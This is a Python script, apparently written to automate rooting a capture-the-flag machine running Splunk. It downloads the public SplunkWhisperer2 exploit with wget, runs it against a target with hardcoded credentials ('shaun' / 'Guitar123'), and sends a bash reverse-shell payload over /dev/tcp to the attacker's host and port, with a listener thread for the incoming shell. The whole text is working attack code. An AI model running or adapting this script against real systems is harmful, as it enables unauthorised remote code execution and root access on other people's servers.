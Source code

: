 ```py
def downExploit():
    # Let's test, to see if the payload already exists
    if(os.path.isfile('PySplunkWhisperer2_remote.py')):
        print("[+] PySplunkWhisperer2_remote.py Already Download, skipping the download part! [+]")
    else:
        print("[+] PySplunkWhisperer2_remote.py not found, let's download it! [+]")
        os.system("wget -q https://raw.githubusercontent.com/cnotin/SplunkWhisperer2/master/PySplunkWhisperer2/PySplunkWhisperer2_remote.py")
        print("[+] EXPLOIT DOWNLOADED, LET'S EXPLOIT!!!! [+]")
        
def getRoot(rhost,lhost,lport):
    print("[+] Let's get R00T on this box! [+]")
    os.system("python3 PySplunkWhisperer2_remote.py --host %s --lhost %s --username shaun --password Guitar123 --payload \"bash -c 'bash -i >& /dev/tcp/%s/%s 0>&1'\"" %(rhost,lhost,lhost,lport))

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--localip', help='Local ip appress', required=True)
    parser.add_argument('-lp', '--localport', help='Local port', required=True)
    args = parser.parse_args()
    
    rhost = args.target
    lhost = args.localip
    lport= args.localport

    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # See if the exploit already exists on the folder
    downExploit()
    # Get Root
    getRoot(rhost,lhost,lport)
    
if __name__ == '__main__':
    main()
```